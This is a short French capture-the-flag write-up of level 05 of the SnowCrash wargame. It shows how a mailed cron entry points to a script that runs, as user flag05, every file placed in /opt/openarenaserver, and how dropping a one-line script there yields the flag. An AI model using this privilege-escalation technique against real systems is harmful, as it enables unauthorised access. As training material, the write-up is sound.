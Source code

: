 # Level 05

Quand on se connecte au compte `level05` on voit un message qui dit `You have new mail.`<br>
les mails sont stockés dans `/var/mail/$USER`

```
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

C'est un cronjob qui execute `sh /usr/sbin/openarenaserver` en tant que `flag05` toutes les 2 minutes

```level05@SnowCrash:/tmp$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

C'est un script qui execute tous les fichiers contenus dans /opt/openarenaserver puis les supprime

On crée un exploit qui va lui faire exécuter getflag et stocker le résultat dans un fichier txt: ```echo 'getflag >> /tmp/flag.txt' > /opt/openarenaserver/exploit.sh```

Au bout de quelques minutes, on fait `cat /tmp/flag.txt`, et on obtient le flag
